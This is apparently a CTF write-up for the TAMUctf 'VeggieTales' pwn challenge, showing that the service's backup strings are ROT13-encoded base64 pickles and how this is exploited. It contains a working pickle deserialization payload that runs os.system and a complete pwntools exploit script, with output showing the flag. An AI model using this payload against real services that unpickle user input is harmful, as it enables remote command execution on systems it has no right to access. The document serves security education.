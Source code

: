 # VeggieTales
Pwn, 489 points

## Description:

> It's my favorite show to watch while practicing my python skills! I've seen episode 5 at least 13 times.

## Solution:

Let's connect to the service and check it out:

```console
root@kali:/media/sf_CTFs/tamu/VeggieTales# nc pwn.tamuctf.com 8448
Do you like VeggieTales??
1. Add an episode to your watched list
2. Print your watch list
3. Backup your watch list
4. Load your watch list
1
1.  Wheres God When Im S-Scared?
2.  God Wants Me to Forgive Them!?!
3.  Are You My Neighbor?
4.  Rack, Shack and Benny
5.  Dave and the Giant Pickle
6.  The Toy That Saved Christmas
7.  Larry-Boy! And the Fib from Outer Space!
8.  Josh and the Big Wall!
9.  Madame Blueberry
10. Larry-Boy and the Rumor Weed
11. King George and the Ducky
12. Esther... The Girl Who Became Queen
13. Lyle the Kindly Viking
14. The Star of Christmas
15. The Wonderful World of Autotainment
16. The Ballad of Little Joe
17. An Easter Carol
18. A Snoodles Tale
19. Sumo of the Opera
20. Duke and the Great Pie War
21. Minnesota Cuke and the Search for Samsons Hairbrush
22. Lord of the Beans
23. Sheerluck Holmes and the Golden Ruler
24. LarryBoy and the Bad Apple
25. Gideon: Tuba Warrior
26. Moe and the Big Exit
27. The Wonderful Wizard of Has
28. Tomato Sawyer and Huckleberry Larrys Big River Rescue
29. Abe and the Amazing Promise
30. Minnesota Cuke and the Search for Noahs Umbrella
31. Saint Nicholas: A Story of Joyful Giving
32. Pistachio - The Little Boy That Woodnt
33. Sweetpea Beauty: A Girl After Gods Own Heart
34. Its a Meaningful Life
35. Twas The Night Before Easter
36. Princess and the Popstar
37. The Little Drummer Boy
38. Robin Good And His Not-So Merry Men
39. The Penniless Princess
40. The League of Incredible Vegetables
41. The Little House That Stood
42. MacLarry and the Stinky Cheese Battle
43. Merry Larry and the True Light of Christmas
44. Veggies in Space: The Fennel Frontier
45. Celery Night Fever
46. Beauty and the Beet
47. Noahs Ark
Enter an episode (by number) to add to your watched list: 5
episode added!
1. Add an episode to your watched list
2. Print your watch list
3. Backup your watch list
4. Load your watch list
2
----------------------
List of watched episodes:
5.  Dave and the Giant Pickle
----------------------
1. Add an episode to your watched list
2. Print your watch list
3. Backup your watch list
4. Load your watch list
3
Episode list backup string (Don't lose it!): tNAqpDOLUDNNNQHhVPORLKMyVTShMPO0nTHtE2yuoaDtHTywn2kypDSuYt==

1. Add an episode to your watched list
2. Print your watch list
3. Backup your watch list
4. Load your watch list
4
Load your backed up list here: tNAqpDOLUDNNNQHhVPORLKMyVTShMPO0nTHtE2yuoaDtHTywn2kypDSuYt==
Loaded backup

1. Add an episode to your watched list
2. Print your watch list
3. Backup your watch list
4. Load your watch list
```

So we can manage our watch list with this service, and even backup and restore it.

The backup string looks like base64, let's try to decode it:

```console
root@kali:/media/sf_CTFs/tamu/VeggieTales# echo tNAqpDOLUDNNNQHhVPORLKMyVTShMPO0nTHtE2yuoaDtHTywn2kypDSuYt | base64 -d
*3P3M5T,2U401l<i24bbase64: invalid input
root@kali:/media/sf_CTFs/tamu/VeggieTales# echo tNAqpDOLUDNNNQHhVPORLKMyVTShMPO0nTHtE2yuoaDtHTywn2kypDSuYt | base64 -d | xxd -g 1
base64: 00000000: b4 d0 2a a4 33 8b 50 33 4d 35 01 e1 54 f3 91 2c  ..*.3.P3M5..T..,
00000010: a3 32 55 34 a1 30 f3 b4 9d 31 ed 13 6c ae a1 a0  .2U4.0...1..l...
invalid input
00000020: ed 1d 3c b0 9f 69 32 a4 34 ae 62                 ..<..i2.4.b
```

Base64 doesn't really like this. 

The description talked about episode 5, which is "Dave and the Giant Pickle", and also mentioned that this service was built over Python. Python + pickle usually hints towards an RCE vulnerability, since pickle deserialization isn't safe assuming the user has control over the input.

We can try to load an exploit such as:

```python
>>> import pickle
>>> class Exploit(object):
...   def __reduce__(self):
...     import os
...     return (os.system,('cat $(find / -name "flag.txt")',))
...
>>> base64.b64encode(pickle.dumps(Exploit()))
'Y250CnN5c3RlbQpwMAooUydjYXQgJChmaW5kIC8gLW5hbWUgImZsYWcudHh0IiknCnAxCnRwMgpScDMKLg=='
```

If we try it, we get:

```console
root@kali:/media/sf_CTFs/tamu/VeggieTales# nc pwn.tamuctf.com 8448
Do you like VeggieTales??
1. Add an episode to your watched list
2. Print your watch list
3. Backup your watch list
4. Load your watch list
4
Load your backed up list here: Y250CnN5c3RlbQpwMAooUydjYXQgJChmaW5kIC8gLW5hbWUgImZsYWcudHh0IiknCnAxCnRwMgpScDMKLg==
Invalid backup
```

So we probably need to figure out the representation of the backup first, before being able to load our own.

This might be base64 with a different dictionary, but brute forcing all the possibilities seemed unfeasible. So, there seemed to be three main options left:
1. The data is encrypted before it is encoded as base64
2. The base64 data is encrypted with some kind of simple cipher that keeps the text property of the input
3. This isn't base64 at all

I spent a lot of time trying to compare different backup strings too see if there are any patterns.

The prefix always seemed to be `tNAqpDOL` so this didn't look like a transposition cipher, but I still couldn't decide between option 1 (is the prefix some kind of IV?) and option 2 (maybe a substitution cipher?), assuming this is related to base64 at all. Nothing seemed to work.

It was reading the description again that gave me the insight I was missing:
> "I've seen episode 5 at least 13 times"

What if the hint is not only "episode 5" (pickle) but also "13 times" - ROT 13!

```python
>>> import pickle, codecs, base64
>>> pickle.loads(base64.b64decode(codecs.decode("tNAqpDOLUDNNNQHhVPORLKMyVTShMPO0nTHtE2yuoaDtHTywn2kypDSuYt==", "rot_13")))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python2.7/pickle.py", line 1388, in loads
    return Unpickler(file).load()
  File "/usr/lib/python2.7/pickle.py", line 864, in load
    dispatch[key](self)
  File "/usr/lib/python2.7/pickle.py", line 892, in load_proto
    raise ValueError, "unsupported pickle protocol: %d" % proto
ValueError: unsupported pickle protocol: 3
```

This looks much better! Let's move to Python3 and see what we get:

```python
>>> import pickle, codecs, base64
>>> pickle.loads(base64.b64decode(codecs.decode("tNAqpDOLUDNNNQHhVPORLKMyVTShMPO0nTHtE2yuoaDtHTywn2kypDSuYt==", "rot_13")))
['5.  Dave and the Giant Pickle']
```

We got it!

Now we can perform our full exploit:

```python
import pickle
import base64
import codecs
from pwn import *

r = remote("pwn.tamuctf.com", 8448)

def read_menu():
    r.recvuntil("4. Load your watch list")

def load_backup(backup):
    read_menu()
    r.sendline("4")
    r.sendlineafter("Load your backed up list here: ", backup)
    return r.recvuntil("1. Add an episode to your watched list", drop = True).decode("ascii")

CMD = 'cat $(find / -name "flag.txt")'

class Exploit(object):
  def __reduce__(self): 
    import os 
    return (os.system,(CMD,))

shellcode = pickle.dumps(Exploit())
print (load_backup(codecs.encode(base64.b64encode(shellcode).decode("ascii"), 'rot_13')))
```


Output:
```
root@kali:/media/sf_CTFs/tamu/VeggieTales# python exploit.py
[+] Opening connection to pwn.tamuctf.com on port 8448: Done
find: '/root': Permission denied
find: '/var/lib/apt/lists/partial': Permission denied
find: '/var/cache/ldconfig': Permission denied
find: '/var/cache/apt/archives/partial': Permission denied
find: '/proc/tty/driver': Permission denied
find: '/proc/1/task/1/fd': Permission denied
find: '/proc/1/task/1/fdinfo': Permission denied
find: '/proc/1/task/1/ns': Permission denied
find: '/proc/1/fd': Permission denied
find: '/proc/1/map_files': Permission denied
find: '/proc/1/fdinfo': Permission denied
find: '/proc/1/ns': Permission denied
find: '/proc/6/task/6/fd': Permission denied
find: '/proc/6/task/6/fdinfo': Permission denied
find: '/proc/6/task/6/ns': Permission denied
find: '/proc/6/fd': Permission denied
find: '/proc/6/map_files': Permission denied
find: '/proc/6/fdinfo': Permission denied
find: '/proc/6/ns': Permission denied
find: '/etc/ssl/private': Permission denied
gigem{d0nt_7rust_th3_g1ant_pick1e}
Loaded backup

[*] Closed connection to pwn.tamuctf.com port 8448
```